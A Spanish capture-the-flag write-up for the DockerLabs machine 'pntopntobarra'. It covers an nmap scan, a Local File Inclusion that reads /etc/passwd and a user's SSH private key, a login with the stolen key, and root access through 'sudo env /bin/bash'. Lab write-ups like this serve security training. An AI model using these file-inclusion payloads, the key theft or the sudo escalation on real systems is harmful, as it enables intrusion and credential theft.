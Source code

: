 # pntopntobarra

Maquina pntopntobarra de [DockerLabs](https://dockerlabs.es)

![dock](./images/pntopntobarra/imagenes/dock.png)

Autor: yo ([maciiii\_\_\_](https://instagram.com/macim0_))

Dificultad: Fácil

## INTRUSION

Comenzamos haciendo un escaneo de nmap a la ip 172.17.0.2.

```css
sudo nmap -p- 172.17.0.2 -sS --min-rate 5000 -n --open -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 18 23:05:22 2024 as: nmap -p- -sS --min-rate 5000 -n --open -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

# Nmap done at Sun Aug 18 23:05:24 2024 -- 1 IP address (1 host up) scanned in 1.76 seconds

```

Vemos el puerto 22 y 80 abierto, nada interesante por lo que iremos directo al puerto 80 desde el navegador.

### PUERTO 80:

![80](./images/pntopntobarra/imagenes/80.png)

Parece un tipo de advertencia y nos nombra un "LeFvIrus", si vemos las letras en mayuscula seria "LFI", por lo que podria tratar de un `Local File Inclusion`, sabiendo eso podemos entrar a donde dice "Ejemplos de computadoras infectadas" y nos redirige a un ".php" que dice `Error al cargar el archivo.` pero en la barra de busqueda pone `http://172.17.0.2/ejemplos.php?images=./ejemplo1.png` por lo que cambiamos el "./ejemplo1.png" por `/etc/passwd`. Como hay un usuario llamado "nico" podemos ver si se puede leer su clave privada de ssh, simplemente ponemos "/home/nico/.ssh/id\_rsa" y listo. Al enviarlo podemos ver la clave privada de el usuario nico. Nos copiamos la clave a nuestra maquina local a un archivo llamado "id\_rsa", le damos permisos con `chmod 600 id_rsa` y luego entramos sin contraseña usando `ssh -i id_rsa nico@172.17.0.2`.

## ESCALADA DE PRIVILEGIOS

Una vez dentro seremos el usuario nico, al ejecutar `sudo -l` se ve que podemos ejecutar como root el binario "env", por lo que simplemente ponemos:

```css
sudo env /bin/bash
```

y listo, somos root:

![root](./images/pntopntobarra/imagenes/root.png)

Gracias.....
